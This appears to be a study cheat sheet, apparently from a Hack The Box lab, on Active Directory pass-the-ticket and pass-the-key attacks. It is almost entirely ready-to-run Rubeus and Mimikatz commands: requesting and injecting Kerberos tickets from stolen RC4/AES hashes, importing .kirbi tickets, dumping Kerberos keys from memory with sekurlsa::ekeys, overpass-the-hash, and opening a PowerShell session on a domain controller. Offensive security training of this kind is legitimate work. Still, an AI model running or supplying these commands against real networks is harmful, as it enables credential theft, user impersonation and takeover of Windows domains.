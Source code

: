 **Rubeus - Pass the Ticket**
````
> Rubeus.exe asktgt /domain:<domain> /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Note that now it displays Ticket successfully imported!.
````
````
Another way is to import the ticket into the current session using the .kirbi file from the disk.
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
````
````
Pass the Ticket - Base64 Format
Convert .kirbi to Base64 Format
> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
> Rubeus.exe ptt /ticket:<base64>
````

**Mimikatz - Pass the Ticket**
````
# privilege::debug
# kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
````

**Pass The Ticket with PowerShell Remoting (Windows)**

PowerShell Remoting allows us to run scripts or commands on a remote computer. 
````
- Mimikatz -
# privilege::debug
# kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> powershell
> Enter-PSSession -ComputerName DC01
````
````
- Rubeus -
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
> Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
````

**Pass the Key aka. OverPass the Hash**

The traditional Pass the Hash (PtH) technique involves reusing an NTLM password hash that doesn't touch Kerberos. The Pass the Key aka. OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket Granting Ticket (TGT). 

**Mimikaz**
````
- Extract Kerberos keys -
# privilege::debug
# sekurlsa::ekeys

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash aka. Pass the Key

# privilege::debug
# sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<rc4_hmac_nt>
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
````
